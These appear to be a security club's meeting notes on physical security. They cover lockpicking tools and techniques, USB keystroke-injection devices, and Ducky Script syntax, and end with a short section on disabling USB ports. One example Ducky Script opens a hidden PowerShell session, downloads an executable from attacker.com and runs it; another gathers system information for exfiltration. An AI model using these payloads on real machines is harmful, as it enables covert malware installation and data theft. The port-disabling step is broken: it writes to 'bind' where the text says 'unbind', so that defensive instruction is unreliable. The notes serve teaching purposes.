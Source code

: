 ```yaml
---
title: "Meeting_3"
author: ""
type: ""
date: 2023-09-27T17:49:47-04:00
subtitle: ""
image: ""
tags: []
---
```

# Meeting 3: Physical Security


## Table of Contents
- [Lockpicking](#lockpicking)
  * [Introduction to Lockpicking](#introduction-to-lockpicking)
  * [Common Tools and Their Uses](#common-tools-and-their-uses)
  * [Lockpicking Techniques](#lockpicking-techniques)
  * [Ethical Considerations](#ethical-considerations)
- [Devices](#devices)
  * [Rubber Duckies](#rubber-duckies)
  * [Ducky Script](#ducky-script)
  * [Creative Devices](#creative-devices)
  * [Defending Yourself from USB Attacks](#defending-yourself-from-usb-attacks)

## Lockpicking
<https://simmer.io/@Xill/lockpick-simulator>
Move the tool with Q, E, WASD, and use the slider on the bottom to increase tension.

### Introduction to Lockpicking

Lockpicking is the art of manipulating the components of a mechanical lock without the original key to open it. While often associated with criminal intent, lockpicking is an essential skill for certain professions like locksmithing, and can be a fulfilling hobby for many enthusiasts.

### Common Tools and Their Uses

- **Tension Wrench:** A tool used to apply rotational tension on the lock cylinder. This tension causes the lock pins to bind, allowing the picker to manipulate them.
  
- **Hook Picks:** These tools are used to individually set pins inside the lock.
  
- **Ball Picks:** Used for wafer locks, the ball shape allows manipulation of multiple wafers at once.
  
- **Diamond Picks:** Suitable for both wafer and pin tumbler locks. The shape helps in raking and single pin picking.
  
- **Rakes:** Tools like the Bogota or the snake rake are moved in and out of the lock to quickly set multiple pins at once. Raking is faster but less precise than single pin picking.

### Lockpicking Techniques

1. **Single Pin Picking (SPP):** A technique where each pin is set individually. This is the most versatile method but requires practice.
  
2. **Raking:** A faster method than SPP. The rake is moved in and out of the lock, attempting to set multiple pins at once. It's less precise but can open many locks in seconds.

3. **Bumping:** Using a specially cut key, the lock is "bumped" causing the pins to jump, allowing the lock to turn. Not all locks are vulnerable to this technique.

4. **Impressioning:** A method where a blank key is inserted into the lock and manipulated to leave marks indicating where cuts should be made.

## Devices
### Rubber Duckies
Popularized by Hak5, this is a common language for keystroke injector tools.

Some keystroke injectors double as both a real USB and a keystroke injector, so the victim won't notice the difference. 
#### Installing Script Emulator
`curl https://dlcdn.apache.org//commons/codec/binaries/commons-codec-1.16.0-bin.tar.gz -o commons-codec-1.16.0-bin.tar.gz`

`tar -xzf commons-codec-1.16.0-bin.tar.gz `

`javac -cp .:commons-codec-1.16.0/commons-codec-1.16.0.jar *.java`

From the `src` directory: `java -cp .:duckyemulator/commons-codec-1.16.0/commons-codec-1.16.0.jar duckyemulator.DuckyEmulator`


### Ducky Script
Simple .txt files. 

#### Ducky Payloads
+ <https://github.com/hak5/usbrubberducky-payloads/tree/master>
+ <https://shop.hak5.org/blogs/payloads>

+ REM: Used for comments. It doesn't affect the script's execution.
```ducky
REM This is a comment
```
+ DELAY: Pauses the script for a specified number of millisecond
```
DELAY 1000  REM Waits for 1 second
```
+ STRING: Types the subsequent string of characters as if typed on a keyboard.
```
STRING Hello, World!
```
+ ENTER (or RETURN): Simulates pressing the Enter key.
```
ENTER
```
+ GUI (or WINDOWS or COMMAND): Simulates pressing the Windows key (on Windows) or Command key (on macOS).
```
GUI r  REM Opens the Run dialog on Windows
```
+ ALT, CONTROL (or CTRL), SHIFT: Modifier keys used in combination with other keys.
```
CONTROL ALT DELETE  REM Sends the Ctrl+Alt+Del command
```

##### Example Payloads
+ Payload Delivery: Use Ducky Script to automate the process of downloading and executing a payload from a remote server.
```
REM Open a command prompt
GUI r
STRING cmd
ENTER
DELAY 500
REM Download and execute payload
STRING powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri 'http://attacker.com/payload.exe' -OutFile 'C:\temp\payload.exe'; Start-Process 'C:\temp\payload.exe'"
ENTER
```
+ Information Gathering: Quickly execute commands to gather system information and save to a file or exfiltrate.
```
REM Gather system info using systeminfo command
GUI r
STRING cmd
ENTER
DELAY 500
STRING systeminfo > C:\temp\info.txt
ENTER
```

### Creative Devices
Cables:
+ <https://zsecurity.org/product/badusb-c-keystroke-injection-cable/>
+ <https://shop.hak5.org/products/omg-cable>

Bash Bunny:
+ <https://shop.hak5.org/products/bash-bunny>
+ <https://github.com/hak5/bashbunny-payloads>

### Defending yourself from USB Attacks
#### Turning off your ports
+ Windows Device Manager
+ Linux Mint
    1. Run `lsusb` to determine the bus and device number of the USB device you want to disable.
    2. To disable the device, echo the bus and device number to `/sys/bus/usb/drivers/usb/unbind`. For example, if your device is on bus 2 and its device ID is 1, you would run:
    
    ```bash
    echo '2-1' | sudo tee /sys/bus/usb/drivers/usb/bind
    ```

    3. To re-enable the device, echo the bus and device number to `/sys/bus/usb/drivers/usb/bind`:

    ```bash
    echo '2-1' | sudo tee /sys/bus/usb/drivers/usb/bind
    ```



